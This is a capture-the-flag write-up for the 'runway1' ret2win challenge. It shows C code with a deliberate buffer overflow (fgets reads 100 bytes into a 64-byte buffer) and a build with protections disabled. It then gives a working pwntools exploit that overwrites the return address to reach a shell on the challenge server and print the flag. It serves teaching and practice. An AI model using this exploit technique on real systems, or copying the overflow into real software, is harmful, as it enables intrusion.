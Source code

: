 # runway1

The following `runway1.c` file was provided:

```c
#include <stdio.h>
#include <stdlib.h>
#include <time.h>
#include <fcntl.h>
#include <sys/sendfile.h>

int win() {
    printf("You win! Here is your shell:\n");

    system("/bin/sh");
}

int get_favorite_food() {
    char food[64];

    printf("What is your favorite food?\n");
    fflush(stdout);

    fgets(food, 100, stdin);

    printf("Hmmm..... %s...", food);
}

int main() {
    int rand_num;

    srand(time(0));
    rand_num = rand() % 100;

    get_favorite_food();

    if (rand_num <= 50) {
        printf("That sounds delicious!\n");
    } else if (rand_num <= 70) {
        printf("Eh, that sounds okay.\n");
    } else if (rand_num <= 80) {
        printf("That's my favorite food too!\n");
    } else if (rand_num <= 90) {
        printf("I've never tried that before!\n");
    } else if (rand_num <= 100) {
        printf("Ew! I would never eat that.\n");
    }

    return 0;
}
```

The issue here lies with the `fgets` call in `get_favorite_food()`. It allows 100 bytes of input when `food` is only 64 bytes. 
This is a basic example of a `ret2win` pwn challenge. Since the return address of the function is stored onthe stack, it can be
overwritten to point to some other function. To be able to do this, we need to make sure that there is no canry enabled, which would
halt the program. Luckily, the povided `Makefile` has the following:
```makefile
all: runway1.c
        gcc runway1.c -o runway1 -fno-stack-protector -no-pie -m32
```

This is extremely convenient. Not only is the canary disabled with `-fno-stack-protector`, but `-no-pie` is enabled, which means that the address 
of functions will be the same across runs, meaning that we don't need to do any tricks like leaking libc.
The `-m32` option just means that this is compiled as a 32-bit executable, which for this challenge is not so important but it does mean that each 
address is 4 bytes.

The first step to build our exploit is to find the offset to the return address within `get_favorite_food()`. Many people use `pwntools`' `cyclic` feature
to handle this, but I think it's easier to just use [this website](https://wiremask.eu/tools/buffer-overflow-pattern-generator/) with `pwndbg` for `gdb`.

There's no need to set a breakpoint for this, I just ran the program, entered the cyclic string from that website, and `pwndbg` returned

> Invalid address 0x63413563

Pasting that address into the website from before, I got the offset `76`.

From here, the exploit is rather straightforward:
```python
import pwn

pwn.context.binary = elf = pwn.ELF("./runway1")

if pwn.args.REMOTE:
    io = pwn.remote("challs.pwnoh.io", 13401)
else:
    io = pwn.process("./runway1")


win = elf.symbols['win']

io.recvuntil(b'food?\n')
payload = b'A' * 76 + win.to_bytes(4, "little")

io.sendline(payload)
io.interactive()
```


And running it, we get this:
```
# python3 sender.py REMOTE SILENT
$ ls
flag.txt
run
$ cat flag.txt
bctf{I_34t_fl4GS_4_bR34kf4st_7c639e33ffcfe8c2}
```

Giving the flag `bctf{I_34t_fl4GS_4_bR34kf4st_7c639e33ffcfe8c2}`


